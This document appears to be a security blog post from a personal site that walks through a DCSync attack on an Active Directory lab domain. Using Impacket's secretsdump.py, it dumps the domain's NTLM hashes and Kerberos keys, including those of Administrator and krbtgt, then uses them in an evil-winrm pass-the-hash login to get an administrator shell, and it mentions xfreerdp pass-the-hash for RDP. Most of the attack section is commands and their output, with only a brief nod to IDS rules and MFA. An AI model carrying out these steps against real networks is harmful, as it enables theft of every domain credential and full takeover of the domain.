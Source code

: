 ```yaml
---
layout: post
title: DC Sync - The Downfall of your Network
subtitle: Did you say dump ALL our domains hashes?
gh-badge:
  - star
  - fork
  - follow
tags:
  - Kali
  - Impacket
  - Active Directory
  - Hashcat
comments: true
published: true
date: '2019-12-1'
---
```


## Domain Controllers, it's not their fault you've misconfigured your network!

The really nice thing about Domain Controllers is that they do exactly what they're told to do. They're given a specific set of rules and they follow them <b>very</b> well. It's up to us to abuse them in ways that they've been told that they're allowed to. So how can we abuse a Domain Controller? The best way is indrectly, if possible.

Within an Active Directory network, it's useful to have a backup Domain Controller so if your primary fails, you'll have a second one to back you up. Perhaps if your workplace gets hit on Ransomware, you may have a hot site so that you can be back up in running in a few minutes. These are all valid reasons that a user account might have a very dangerous set of account permissions called "Replicating Directory Changes", "Replicating Directory Changes All", and lastly, "Replicating Directory Changes in Filtered Set". This is commonly refered to as "DC Sync", or Domain Controller Sync. 

<img src="https://blog.spookysec.net/img/dcsync.png">

What these given permissions allow for is all of the user accounts stored on the primary Domain Controller to be Sync'd with this user account. If your DC's hard drive fails, this could be a life saving thing to have. If an attacker gains access to this user account, they have all of your domains password hashes. At that point you shoudl pray you have some sort of multi factor authenthication system within your network. For example, a Yubikey or Duo.

## Exploitation

Enough talk about the specifics of DC-Sync, lets get into exploitation. Like always you will need <a href='https://github.com/SecureAuthCorp/impacket'>Impacket</a> downloaded on your system

```
┌─[root@Sp00kyS3c]─[~]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket.git
Cloning into 'impacket'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 16908 (delta 2), reused 6 (delta 2), pack-reused 16892
Receiving objects: 100% (16908/16908), 5.57 MiB | 8.81 MiB/s, done.
Resolving deltas: 100% (12911/12911), done.
┌─[root@MrS1n1st3r]─[~]
└──╼ #cd impacket/examples/
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #ls 
atexec.py    esentutl.py    GetNPUsers.py  getTGT.py       ifmap.py       lookupsid.py   mssqlclient.py    nmapAnswerMachine.py  opdump.py  psexec.py      registry-read.py  sambaPipe.py    services.py   smbrelayx.py  sniff.py     wmiexec.py
dcomexec.py  GetADUsers.py  getPac.py      GetUserSPNs.py  karmaSMB.py    mimikatz.py    mssqlinstance.py  ntfs-read.py          ping6.py   raiseChild.py  reg.py            samrdump.py     smbclient.py  smbserver.py  split.py     wmipersist.py
dpapi.py     getArch.py     getST.py       goldenPac.py    kintercept.py  mqtt_check.py  netview.py        ntlmrelayx.py         ping.py    rdp_check.py   rpcdump.py        secretsdump.py  smbexec.py    sniffer.py    ticketer.py  wmiquery.py
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #
```

We will primarily be working with a tool called "secretsdump.py" this time around. Access to any ordinary user account <b>will not suffice.</b> as described above, a user account with <b>Replicating Directory Changes</b> is required. This is what occurs when a user account <b>without</b> these privileges attempts to preform the attack.

```
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #./secretsdump.py -dc-ip 10.13.37.10 spookysec.local/svc-demo:manager@10.13.37.10
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

If you're not careful, this could trigger an Intrusion Prevention/Detection System alert. This is a rule that everyone should have within their IPS. Didier Stevens took their time to write several for Mimikatz, they can be found <a href='https://blog.didierstevens.com/2017/10/08/quickpost-mimikatz-dcsync-detection/'>here!</a> (Maybe this could inspire someone to write IDS/IPS alerts)

Back to exploitation! With a proper user account this attack will likely succeed with ease.

```
┌─[root@MrS1n1st3r]─[~/impacket/examples]
└──╼ #./secretsdump.py -dc-ip 10.13.37.10 spookysec.local/backup:backup@10.13.37.10
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404 <snip> 3fe20cbe99b4a:::
Guest:501:aad3b435b51404eeaad <snip> 6ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad <snip> f978f125b2069292e327fbebe3:::
spookysec.local\svc-demo:1112:aad3b435b51404eeaa <snip> 9e372aa1f69147375ba6809:::
spookysec.local\backup:1113:aad3b435b5140 <snip> 4b40f1ca9aab45538:::
DC$:1008:aad3b435b51404eeaad3b43 <snip> 2208265f4726f8065a681:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:fcdd7ceb88389fc3 <snip> 7dfa150c1381872192eeb
Administrator:aes128-cts-hmac-sha1-96:4a9b79 <snip> 4557057eac
Administrator:des-cbc-md5:fe1f <snip> 793e57
krbtgt:aes256-cts-hmac-sha1-96:7107ca3bd17590 <snip> d980f3d1673dc20eaa8415
krbtgt:aes128-cts-hmac-sha1-96:57b394d <snip> dea239bfb08be
krbtgt:des-cbc-md5:e5320 <snip> 45f45b
spookysec.local\svc-demo:aes256-cts-hmac-sha1-96:effa9b <snip> e68f8d29647911df20b626d82863518
spookysec.local\svc-demo:aes128-cts-hmac-sha1-96:aed4 <snip> b0ae87030b3ff
spookysec.local\svc-demo:des-cbc-md5:2c4 <snip> 6ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d1162 <snip> 4d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2ae <snip> 971c836d197
spookysec.local\backup:des-cbc-md5:d601e9 <snip> 6d89
DC$:aes256-cts-hmac-sha1-96:a3c83bdaa420b48f <snip> b2733baae30d163c9fdb8
DC$:aes128-cts-hmac-sha1-96:96253e855598c <snip> 4fcbe22
DC$:des-cbc-md5:a7e34a <snip> d29f8
[*] Cleaning up... 
```

Awesome, now we have everyone on the domains account hashes! What can we do with them? Of course we can use our favorite tool Evil-WinRM or almost any other Impacket tool to authenthicate as them!

```
┌─[root@MrS1n1st3r]─[~/impacket/examples]
└──╼ #evil-winrm -u Administrator -i 10.13.37.10 -H e34029a98 <snip > e20cbe99b4a

Evil-WinRM shell v1.9

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
spookysec\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

No need for password cracking here, although if you're looking to authenthicate via RDP with PassTheHash, you will have some difficulty. Windows by default includes account login restrictions that prevent users from signing in with a null password. xfreerdp <b>does</b> support /pth:<hash> for PassTheHash functionality though. So if you can disable the requirements via Evil-WinRM you will have full RDP access to the system!

